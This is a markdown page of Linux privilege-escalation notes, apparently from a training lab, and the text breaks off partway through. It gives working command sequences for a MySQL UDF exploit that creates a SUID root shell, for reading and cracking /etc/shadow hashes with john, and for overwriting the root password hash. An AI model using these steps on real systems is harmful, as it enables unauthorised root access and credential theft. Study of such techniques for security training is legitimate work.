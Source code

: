 #Linux Privlage Escalation
### Service Exploits
- https://www.exploit-db.com/exploits/1518
- The mysql service is running as root and the 'root' user for the service does not have a password assigned or the password is known. This exploit takes advantage of the User Defined Functions (UFDs) to run system commands as root via the mysql service.
- Change into the `/home/user/tools/mysql-udf` directory.
`cd /home/user/tools/mysql-udf`
- Compile the raptor_udf2.c exploit code using the following
`gcc -g -c raptor_udf2.c -fPIC`
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`
- Connect to the mysql service as the root user with a blank or known password.
`mysql -u root`
- Execute the following commands on the mysql shell to create a udf "do_system" using the compiled exploit
`use mysql;`
`create table foo(line blob);`
`insert into foo values (load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`
`create function do_system returns integer soname 'raptor_udf2.so';`
- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission
`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
- Exit out of the mysql shell
`\q`
- Run /tmp/rootbash with -p to gain a root shell
`/tmp/rootbash -p`

### Weak File Permissions - Readable /etc/shadow
`ls -l /etc/shadow`
`cat /etc/shadow`
- A users password hash (if they have one) can be found between the first and second (:) of each line.
- Save the root user's hash to a file called hash.txt on your kali machine and use john to crack it.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
- Switch to the root user
`su root`
### Weak File Permissions - Writeable /etc/shadow
`ls -l /etc/shadow`
- Generate a new password hash
`mkpasswd -m sha-512 jackiscool`
- Edit /etc/shadow and replace origional root user's password hash with the one that you just created
- Switch to the root user
`su root`
### Weak File Permissions - Writable /etc/passwd
- The /etc/passwd file contained user password hashes, and some versions of Linux still allow password hashes to be stored there
- 
